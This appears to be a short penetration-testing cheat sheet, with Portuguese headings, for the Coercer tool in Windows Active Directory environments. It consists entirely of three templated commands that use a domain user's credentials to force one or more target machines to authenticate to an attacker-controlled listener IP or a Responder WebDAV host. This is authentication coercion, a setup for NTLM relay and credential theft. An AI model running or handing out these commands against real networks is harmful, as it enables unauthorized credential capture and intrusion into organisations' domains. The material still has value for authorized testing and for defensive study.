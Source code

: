 # coercer

% adcs, certificate, windows, Active directory, template

## coercer - lista vulnerabilidades
#plateform/linux #target/remote #cat/RECON
```
coercer.py -d '<domain>' -u '<user>' -p '<password>' --listener <hackerIp> <targetIp> 
```

## coercer - Webdav
#plateform/linux #target/remote #cat/RECON
```
coercer.py -d '<domain>' -u '<user>' -p '<password>' --webdav-host '<ResponderMachineName>' <targetIp> 
```

## coercer - lista vulnerabilidades em varios alvos
#plateform/linux #target/remote #cat/RECON
```
coercer.py -d '<domain>' -u '<user>' -p '<password>' --listener <hackerIp> --targets-file <PathToTargetFile> 
```